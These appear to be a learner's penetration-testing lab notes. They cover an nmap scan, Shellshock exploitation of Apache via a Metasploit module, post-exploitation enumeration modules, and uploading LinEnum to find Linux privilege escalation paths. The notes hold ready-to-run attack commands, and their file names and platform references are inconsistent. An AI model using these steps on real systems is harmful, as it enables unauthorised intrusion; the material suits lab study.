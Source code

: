 
nmap -sV target
service : apache 2.4.6
vulnerbility: shellshock
exploit: use exploit/multi/http/apache_mod_cgi_bash_env_exec
set TARGETURI /gettime.cgi


after exploit 

- use post/linux/gather/enum_configs
- use post/linux/gather/enum_network
- use post/linux/gather/enum_system
- use post/linux/gather/checkvm


- **Step 6:** Automating local enumeration with LinEnum

Now that we have explored how to use Metasploit modules to automate local enumeration on a Windows target, we can begin exploring how to use LinEnum.

LinEnum is a bash script that is used by penetration testers automate local enumeration and identify privilege escalation vectors on Linux systems.

In order to use this script, you will need to copy the script in to your lab environment. To begin with, you can access the script through the following GitHub repository: https://github.com/rebootuser/LinEnum

Once you have copied the script from the GitHub repo, navigate back to the Kali Linux system in your lab environment and create a new file with a text editor like leafpad.

Then paste in the script you copied in the file, after which save the file as **LinEnum.sh** as shown in the following screenshots.

- CTRL + SHIFT + ALT ( to paste from clipboard) 
- cd /tmp
- upload /root/Desktop/LinEnum.sh
- shell
- /bin/bash -i
- chmod +x linnum.sh
- ./linenum.sh